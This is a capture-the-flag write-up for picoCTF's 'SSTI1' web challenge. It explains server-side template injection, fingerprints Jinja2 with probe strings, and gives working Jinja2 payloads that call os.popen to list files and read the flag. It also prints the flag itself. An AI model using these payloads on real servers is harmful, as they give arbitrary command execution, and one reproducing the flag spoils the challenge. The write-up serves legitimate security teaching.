 # [SSTI1](https://play.picoctf.org/practice/challenge/492)

## Challenge Information
- **Category**: Web Exploitation
- **Difficulty**: Easy
- **Description**: I made a cool website where you can announce whatever you want! Try it out!

## Solution Overview
Server-Side Template Injection (SSTI) is a vulnerability that occurs when user-supplied input is processed by a template engine without proper sanitization. In this challenge, we'll exploit an SSTI vulnerability to retrieve the flag.

## Hints
- Server Side Template Injection

## Detailed Walkthrough

### Initial Analysis
#### Web Application Interaction
1. Launch the challenge instance
2. Observe the web page that accepts user input
3. Notice that the input is reflected back on the page

### Exploitation/Solution Steps
1. **Step 1**: Identify the Template Engine:

    ```
    ${7*7}
    {{7*7}}
    a{*comment*}b
    ${"z".join("ab")}
    {{7*'7'}}
    ```

    Based on the input, `{{7*7}}` works, so it must be either Jinja or Twig. By testing `{{7*'7'}}`, we get `7777777`, so it is Jinja2.

2. **Step 2**: Prepare the exploits
   - List the directory to find any relevant flag file:
   
        ```
        {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
        ```
   
        The output of this command reveals the following files:
        ```
        __pycache__
        app.py
        flag
        requirements.txt
        ```
   
   - Read the flag file:
   
        ```
        {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
        ```

### Key Insights
- Understanding how different template engines parse input helps in exploiting SSTI vulnerabilities.
- Jinja2-based SSTI allows arbitrary code execution, making it highly dangerous.
- Checking for execution of mathematical expressions (`7*7`) helps confirm SSTI vulnerabilities.

## Tools and Resources Used
- [Server Side Template Injection (SSTI)](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti)

## Flag
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
```

## Learning Points
- How SSTI vulnerabilities work
- Identifying and exploiting Jinja2-based SSTI
- Importance of input sanitization in template engines

## Potential Improvements
- Always use input validation and sanitization
- Automating SSTI detection using Burp Intruder or a custom script

## References
- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
- [Server Side Template Injection (SSTI)](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti)
